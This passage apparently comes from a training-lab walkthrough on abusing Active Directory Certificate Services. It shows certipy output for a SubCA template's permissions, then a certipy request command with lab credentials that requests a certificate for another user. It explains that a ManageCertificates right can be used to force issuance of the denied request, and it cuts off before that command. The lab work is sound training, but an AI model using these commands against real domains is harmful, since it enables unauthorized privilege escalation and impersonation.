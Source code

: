 ```
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 5 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
      Object Control Permissions
        Owner                           : LAB.LOCAL\Enterprise Admins
        Write Owner Principals          : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Dacl Principals           : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
        Write Property Principals       : LAB.LOCAL\Domain Admins
                                          LAB.LOCAL\Enterprise Admins
```

Therefore, students need to use the `req` command of `certipy`, specifying the template `SubCA` for the `-template` option and the `UPN` `Josy` for the `-upn` option (when prompted to save the private key, students can either answer with yes or no, however, remembering the `Request ID` is important):

Code: shell

```shell
certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template SubCA -upn Josy
```

```
┌─[us-academy-1]─[10.10.15.48]─[htb-ac-413848@htb-dcsgrv7yfv]─[~]
└──╼ [★]$ certipy req -u blwasp@lab.local -p Password123! -ca lab-LAB-DC-CA -template SubCA -upn Josy

Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Requesting certificate via RPC
[-] Got error while trying to request certificate: code: 0x80094012 - CERTSRV_E_TEMPLATE_DENIED - The permissions on the certificate template do not allow the current user to enroll for this type of certificate.
[*] Request ID is 63
Would you like to save the private key? (y/N) y
[*] Saved private key to 63.key
[-] Failed to request certificate
```

Regardless of the CA refusing to enroll the user `Josy` for the `SubCA` template, students need to abuse the `ManageCertificates` rights that `blwasp` possesses to issue the certificate, circumventing the conditions of only `Domain Admins` or `Enterprise Admins` being able to enroll; students need to the use `ca` command of `certipy`, specifying the `Request ID` previously attained for the `-issue-request` option:

Code: shell
